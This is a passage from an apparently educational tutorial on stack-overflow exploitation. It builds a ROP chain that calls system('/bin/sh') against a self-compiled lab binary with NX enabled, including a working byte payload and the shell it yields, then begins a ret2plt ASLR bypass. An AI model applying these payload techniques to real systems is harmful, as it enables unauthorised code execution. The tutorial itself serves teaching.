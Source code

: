 ```bash
gdb-peda$ ropsearch "ret"
Searching for ROP gadget: 'ret' in: binary ranges
0x000055555555501a : (b'c3')	ret
```
> The MOVAPS issue
If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction. https://ropemporium.com/guide.html
6. Search for "/bin/sh" string:
```bash
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc.so.6 : 0x7ffff79d8698 --> 0x68732f6e69622f ('/bin/sh')
```
7. Assemble exploit (rop_rdi_ret + bin_sh + ret + system):
```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\x11\x52\x55\x55\x55\x55\x00\x00' + b'\x98\x86\x9d\xf7\xff\x7f\x00\x00' + b'\x1a\x50\x55\x55\x55\x55\x00\x00' + b'\x60\x0d\x85\xf7\xff\x7f\x00\x00' + b'\n')"; cat) | ./stack_overflow_bypass_nx
```
8. The result:
```bash
Enter a password: 
id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
```

## Bypass ASLR
ASLR randomizes address of mapped libc, so we cannot know it beforehand and call system function. But we can call system@plt section which as stable in binary (binary should be linked with -no-pie flag, for more information see https://sploitfun.blogspot.com/2013/06/dynamic-linking-internals.html). The only condition - system function should be presented in target binary, otherwise system@plt will be ommited. This technics is called ret2plt.
1. Compile binary with -no-pie flag
2. Enable system ASLR
```bash
$ echo 2 > /proc/sys/kernel/randomize_va_space
```
3. Check binary:
```bash
$ gdb stack_overflow_bypass_aslr
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
4. Search for system@plt address
```bash
$ objdump -d stack_overflow_bypass_aslr | grep "system@plt"
00000000004010e0 <system@plt>:
  401248:	e8 93 fe ff ff       	call   4010e0 <system@plt>
```
5. Search for "pop rdi; ret" gadget
```bash
gdb-peda$ ropsearch "pop rdi; ret"
```